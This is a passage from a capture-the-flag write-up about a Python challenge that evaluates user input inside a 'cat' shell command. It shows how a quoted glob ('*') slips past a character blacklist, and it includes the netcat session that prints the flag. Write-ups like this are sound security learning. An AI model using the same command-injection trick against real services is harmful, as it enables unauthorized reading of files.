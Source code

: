 Here we can see that multiple options are offered to us and that all of them except "4" just prints some text or exits the session. So let's have a closer look onto number 4. We can see that another input question pops up. After that our input gets checked if any character was used which is part of FLAG_FILE which would be "F", "L", "A", "G" (if you ask yourself why it is this way just check [list-comprehensions](https://www.pythonforbeginners.com/basics/list-comprehensions-in-python) ). After that it checks our input we gave for the article if it has any of these characters and if you print out the news and that WAYYANG sees us. If it does not find a not allowed character it trys to execute "cat {eval(filename)}". So the idea is to bypass that check.

Honestly there is probably a real hacky way but what we just used are [bash macros](https://www.gnu.org/software/bash/manual/html_node/Miscellaneous-Commands.html). So we put as an input "*" to get any content of any file in the current directory. This gave us an error in the first place because of the way "input" makes an object. To circumvent that we just put in '*' and voila we had it.

```console
└─$ nc fun.chall.seetf.sg 50008
                 ,#####,
                 #_   _#
                 |a` `a|
                 |  u  |            ________________________
                 \  =  /           |        WAYYANG         |
                 |\___/|           <     TERMINAL  v1.0     |
        ___ ____/:     :\____ ___  |________________________|
      .'   `.-===-\   /-===-.`   '.
     /      .-"""""-.-"""""-.      \
    /'             =:=             '\
  .'  ' .:    o   -=:=-   o    :. '  `.
  (.'   /'. '-.....-'-.....-' .'\   '.)
  /' ._/   ".     --:--     ."   \_. '\
 |  .'|      ".  ---:---  ."      |'.  |
 |  : |       |  ---:---  |       | :  |
  \ : |       |_____._____|       | : /
  /   (       |----|------|       )   \
 /... .|      |    |      |      |. ...\
|::::/'' jgs /     |       \     ''\::::|
'""""       /'    .L_      `\       """"'
           /'-.,__/` `\__..-'\
          ;      /     \      ;
          :     /       \     |
          |    /         \.   |
          |`../           |  ,/
          ( _ )           |  _)
          |   |           |   |
          |___|           \___|
          :===|            |==|
           \  /            |__|
           /\/\           /"""`8.__
           |oo|           \__.//___)
           |==|
           \__/
What would you like to do today?
1. Weather
2. Time
3. Tiktok of the day
4. Read straits times
5. Get flag
6. Exit
>> 4
which news article you want babe :)   '*'
SEE{wayyang_as_a_service_621331e420c46e29cfde50f66ad184cc}WAYYANG DECLARED SEXIEST MAN ALIVE // <- the actual flag

SINGAPORE - In the latest edition of Mister Universe, Wayyang won again, surprising absolutely no one.
The judges were blown away by his awesome abdominals and stunned by his sublime sexiness.
```